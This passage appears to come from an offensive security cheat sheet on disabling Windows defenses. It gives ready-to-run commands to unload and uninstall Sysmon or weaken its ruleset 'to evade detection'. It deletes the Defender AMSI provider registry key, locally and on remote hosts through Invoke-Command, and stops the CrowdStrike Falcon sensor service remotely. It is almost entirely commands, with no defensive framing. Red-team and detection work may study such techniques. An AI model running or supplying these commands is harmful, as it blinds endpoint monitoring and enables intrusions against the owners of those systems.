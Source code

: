 `C:\> sc query sense`

### 1.1.4 - Sysinternals

#### 1.1.4.1 - Sysmon

##### 1.1.4.1.1 - Disable

- **Get driver for Sysmon and disable it**

`C:\> fltmc`

`C:\> fltmc unload SysmonDrv`

- **Disable Sysmon service**

`C:\> sc stop Sysmon64`

- **Change configuration for sysmon to make it useless or reduce the ruleset to evade detection**

`C:\> Sysmon64.exe -c sysmonconfig-export.xml`

- **Change to default settings**

`C:\> Sysmon64.exe -c --`

##### 1.1.4.1.2 - Uninstall

- **Note:** You must have administrative privileges

`C:\> sysmon64.exe -u`

### 1.1.5 - Disable Powershell

#### 1.1.5.1 - Powershell

`PS C:\> Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse`

`PS C:\> icm -computername <IP> -scriptblock {Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse -Force}`

### 1.1.6 - Disable Third-Party Endpoints

#### 1.6.1 - Endpoints

##### 1.1.6.1.1 - CrowdStrike

- **Command Prompt**

`C:\> net stop "CrowdStrike Falcon Sensor Service"`

- **Powershell**

`PS C:\> Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service" | Stop-Service -Force`

`PS C:\> Stop-Service -InputObject $(Get-Service -ComputerName <IP> -Name "CrowdStrike Falcon Sensor Service")`
